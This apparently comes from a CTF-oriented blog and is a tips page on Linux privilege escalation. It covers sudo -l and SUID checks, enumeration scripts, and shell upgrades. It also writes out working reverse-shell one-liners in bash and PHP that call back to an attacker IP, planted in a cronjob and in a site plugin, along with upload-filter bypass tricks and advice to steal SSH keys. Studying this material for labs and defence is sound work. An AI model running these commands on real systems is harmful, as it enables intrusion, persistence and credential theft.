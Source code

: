 ```yaml
---
layout: page
title: Privilege Escalation
subtitle: The many different ways to escalate your privileges
image: /assets/fe.ico
description: The MANY different ways to escalate privileges
permalink: /tipsandtricks/privilegeescalation/
#hero_image: /assets/fe.ico
#hero_height: is-fullheight
---
```


# Introduction
Alrighty, so there's a lot that can be said here. I'm unsure how far into this I should go before I lose my mind alongside you, so this might be briefer than it could be. We'll see.
<br><br>
To better qualify the situation - privilege escalation implies you already have some type of access to a system, say through a basic end user that had a poor password. The following scenarios imply you already have a shell of some kind, and you are looking to further exploit that and get to the point where you are running the shell as an admin / root, or at least can execute commands as one.
<br><br><br>
# Let's start with sudo -l and SUID permissions
One of the go to commands once you've established yourself within a shell on a system is a quick `sudo -l`. It takes two seconds to type and another thirty seconds to check if anything from those results might be useful. What that does is list the commands that you can run as sudo, on a properly configured system this should be all but zero for normal users.
<br><br>
Let's say there is an improperly configured system that allows you to run `/usr/bin/less` with sudo rights. This could lead to you reading files that you should not have access to. The easiest way to discover if there is a way to exploit whatever is listed from the `sudo -l` command is to reference [gtfobins](https://gtfobins.github.io/). They have a _massive_ library of ways to bypass restrictions and escalate your privileges - their site will be referenced multiple times throughout my [CTF Exploits](/blog) page.
<br><br>
On a very similar note, we can use files that have the SUID permissions (can run files with the owner's privileges) to escalate our privileges. We can check what files like this exist by entering `find / -perm -u=s -type f 2>/dev/null`. This is very similar to any other find command, what this searches for are files that contain those SUID permissions. And again, if this returns you a list reference gtfobins for any known exploits from them.
<br><br>
Manually checking each result from the SUID permissions can be tedious, however, and others have created scripts that can automate this process for us. I found [this page](https://null-byte.wonderhowto.com/how-to/find-exploit-suid-binaries-with-suid3num-0215789/), which has a script that does exactly this and will inform you of anything that might be vulnerable. This is similar to the LinEnum script I will mention down below. You can try directly curling the script onto the target machine or just download it and start a web server locally and transfer it that way.
<br><br><br>

# Uploading reverse tcp shells
There are numerous ways you can start a reverse shell, I've modified plugins for a blog, replaced a file that was used by a cronjob, there's a range of ways.
<br><br>
A great site for this is [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), as they offer some quick commands that, once edited for your IP address and port, can start those shells via bash, perl, python, php and other methods. They also have more material on that side beyond just how to start reverse shells, including stuff relating to SQL injection and more notes on John.
<br><br>
Back to the reverse shell side of things, let's use the example I mentioned with modifying the file used by the cronjob. Essentially I was able to edit in the following command to a cronjob that executed every minute, and what I appended to that file was the following:<br>
`bash -i >& /dev/tcp/10.18.91.219/8000 0>&1`<br><br>
While in another tab I had a netcat listener on that same port: `nc -lvnp 8000`
<br><br>
Basically what this two step process is saying is:<br>
- First, upload a reverse shell somehow, that will somehow be called (examples given here were as activated plugins or by a cronjob)
- And then second, you need to be listening on the same port that the reverse shell is trying to reach you at. When that command executes it will try to initiate that connection over port `8000` at my IP address of `10.18.91.219`. If I am not listening over that port I will miss the connection<br><br>

The other example was with the plugin, and although I forget exactly how it was worded, I do recall I was able to gain a foothold into their website editor and from there I could edit their plugins. I edited one of their already active plugins with something like:<br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`<br><br>
And then curled the location for that specific php plugin, which started the reverse shell, and my netcat listener was already waiting.<br><br>

There are many different ways you can initiate that reverse shell, it all comes down to what you have access to, what you should modify, and your permissions for those files.
<br><br><br>

# Upgrading / starting shells
Sometimes you might find that you have established a shell to a machine, but it is not the best or maybe not as stable as you would like. Some simple ways to do this include through python and perl, although there are more.
<br><br>
With python that would be:<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`<br>
This extends to v3.x as well. If you're unsure what is installed, run a quick `which python`.
<br><br>
Through perl:<br>
`perl -e 'exec "/bin/sh";'`
<br><br><br>

# Reoccuring jobs / tasks on machines
Also known as cronjobs, although there are different kinds. Sometimes these will run exploitable or editable tasks on a schedule. If you can find a way to change them directly or resources / modules they interact with, this can be yet another way to gain access to more information or escalate your access. On most linux distributions you will find this at `/etc/crontab`. You can access this with a text editor or with `crontab -e`, or use the `-l` flag instead to just view them.
<br><br><br>

# LinEnum
This is another tool that can be found on GitHub, and can provide useful information on a target machine if you can get the permissions needed to run it. It does a lot of the things that are mentioned on this page automatically and generates a report for you to view later. Once you are on the machine you can get the file via wget or curl to the `/tmp` directory and work from there. The bash file is located [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).<br><br>
Note: You will likely need to `chmod +x` that file to give it executable permissions.
<br><br><br>

# Other
Anytime you can find ssh keys, grab 'em. Reference the [bruteforcing](/tipsandtricks/bruteforcing/) page for ways to crack those and use them to your advantage.
<br><br>
As mentioned before, sometimes gaining that next foothold includes uploading e.g. php files to start a reverse tcp shell with yourself. However, depending where you upload they might restrict you to only certain types of files, or disallow certain types of files. Some ways to _maybe_ get around this is capitilize letters like .Php or .phP instead of .php, maybe see if it'll accept a .phtml file, etc. You get the idea. Security controls are meant to secure something otherwise not secure (duh), but that doesn't mean they account for everything, even if that means something as simple as denying file types by certain extensions only.
<br>
